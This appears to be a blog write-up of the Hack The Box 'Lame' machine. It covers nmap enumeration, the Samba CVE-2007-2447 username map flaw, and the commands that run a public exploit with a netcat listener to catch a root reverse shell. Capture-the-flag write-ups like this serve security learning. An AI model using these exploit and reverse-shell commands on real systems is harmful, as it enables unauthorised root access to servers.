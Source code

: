 +++
title = 'HackTheBox - Lame'
date = 2023-09-15T17:03:12+02:00
draft = false
+++

**Lame** is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

# Info


    OS - Linux
    Difficulty - Easy
    Points - /
    Release - 14 Mar, 2017
    IP - 10.10.10.3

# Enumeration

## Nmap Scan

**`nmap -sC -sV -Pn 10.10.10.3`**

```Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 17:13 CEST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.055s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  Q5V      Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m33s, deviation: 2h49m44s, median: 31s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-09-15T11:14:12-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

## Service Observation

Here we can't see any open HTTP or HTTPS ports, but what we can see is open ftp, ssh and samba ports, after the research about services and their versions we can see that Samba on port 139 is vulnerable (CVE-2007-2447).

## More about CVE-2007-2447
To exploit this vulnerability, an attacker would send a specially crafted request to the Samba server, taking advantage of the username map script feature. By doing so, they could execute arbitrary code with the privileges of the Samba server process, potentially gaining control over the server.

# Exploitation

To exploit this vulnerability we found we are gonna use publicly available exploit:
https://github.com/amriunix/CVE-2007-2447

First what we are gonna do is install this tool and read the usage commands!

```
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

- `RHOST` -- The target address
- `RPORT` -- The target port (TCP : 139)
- `LHOST` -- The listen address
- `LPORT` -- The listen port

In this specific scenario:
**RHOST** = `10.10.10.3`
**RPORT** = `139`
Now we will get the lhost by running the command `ifconfig` 
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet ***10.10.14.5***  netmask 255.255.254.0  destination 10.10.14.5

So in this scenario
**LHOST** = `10.10.14.5`
**LPORT** = (we can choose the port we want, in this case i choose 1234) = `1234`

so the command would be 
## Running the exploit
```
python usermap_script.py 10.10.10.3 139 10.10.14.5 1234
```

Before running the command we will run *netcat* listener on port **1234** like this:

```
nc -lvnp 1234
```
## PoC
After running the exploit we will get the *reverse shell* as **root**

![Minion](https://github.com/pepax3/pepax3.github.io/blob/main/content/posts/HackTheBox%20-%20Lame/PoC.png?raw=true)

``` py
 print("This line will be printed.")
```

